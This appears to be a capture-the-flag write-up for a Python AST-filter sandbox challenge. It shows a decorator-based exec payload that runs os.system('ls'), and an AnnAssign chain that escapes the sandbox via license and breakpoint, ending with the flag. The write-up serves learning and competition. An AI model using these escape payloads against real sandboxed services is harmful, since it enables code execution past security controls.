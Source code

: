 ```yaml
---
created: 2024-06-29T00:39
updated: 2024-11-23T20:30
tags:
  - AST
solves: 52
points: 470
---
```


We are not allowed to use the following expressions in python: **assign**, **call**, **import**, **import from**, **binary operation (+-/ etc)**.

First thing that came to mind were function decorators.

```python
@safe_import.__globals__['__builtins__'].exec
@lambda x: 'safe_import.__globals__["__builtins__"].__import__("os").system("ls")'
def x(): 0
```

This is a working payload but it's 3 lines.

So I tried other things such as replacing `safe_import` with my own function but they all failed.

Then my teammates solved it with **AnnAssign**.

```python
builtins: "" = safe_import.__globals__["__builtins__"] license: "" = builtins.license license._Printer__setup: "" = builtins.breakpoint f"{license}"

# uiuctf{maybe_we_shouldnt_sandbox_python_2691d6c1}
```

Never knew python had such a function.
